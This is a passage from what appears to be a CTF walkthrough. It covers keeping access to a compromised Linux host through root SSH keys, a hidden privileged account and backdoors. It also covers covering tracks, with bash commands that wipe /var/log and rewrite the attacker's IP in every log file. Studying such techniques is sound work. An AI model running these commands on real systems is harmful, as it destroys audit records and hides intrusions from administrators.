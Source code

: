 - Add SSH key to `/root/.ssh/authorized_keys`
- Create a privileged account that wouldn’t draw attention (ex: `operations`) or an unprivileged account and give it `sudo` access via group or directly in the `/etc/sudoers` file.
- Install some other backdoor or service.

## PHASE 5: Clearing Tracks

This is a test/CTF machine, so this is out of scope. However, in a Red Team scenario, we could:

### Delete Logs

Delete relevant logs from `/var/log/` - although that might draw attention.

```bash
rm -Rf /var/log/*
```

### Replace our IP

Search and replace our IP address in all logs.

#### OPTION 1: Simple

The simplest way is via something like:

```bash
find /var/log -name "*" -exec sed -i 's/10.10.2.14/127.0.0.1/g' {} \;
```

This searches for all files under `/var/log/` and for each file found, searches for `10.10.2.14` (replace this with your IP) and and replace anywhere that is found with `127.0.0.1`.

#### OPTION 2: Complex

You could come up with your own scheme. For example, you could generate a random IP address with:

```bash
awk -v min=1 -v max=255 'BEGIN{srand(); for(i=1;i<=4;i++){ printf int(min+rand()*(max-min+1)); if(i<4){printf "."}}}'
```

I'd like this to use a new, unique, random IP address for every instance found, but `sed` doesn't support command injection in the search/replace operation. However, you could generate a random IP address to a variable and use that for this search and replace, like below. Note that the `2> /dev/null` hides any error messages of accessing files.

##### As separate statements

In case you want to work out each individual piece of this, here they are as separate statements:

```bash
# MY IP address that I want to scrub.
srcip="22.164.233.238"

# Generate a new, unique, random IP address
rndip=`awk -v min=1 -v max=255 'BEGIN{srand(); for(i=1;i<=4;i++){ printf int(min+rand()*(max-min+1)); if(i<4){printf "."}}}'`

# Find all files and replace any place that you see my IP, with the random one.
find /var/log -name "*" -exec sed -i "s/$srcip/$rndip/g" {} \; 2> /dev/null
```
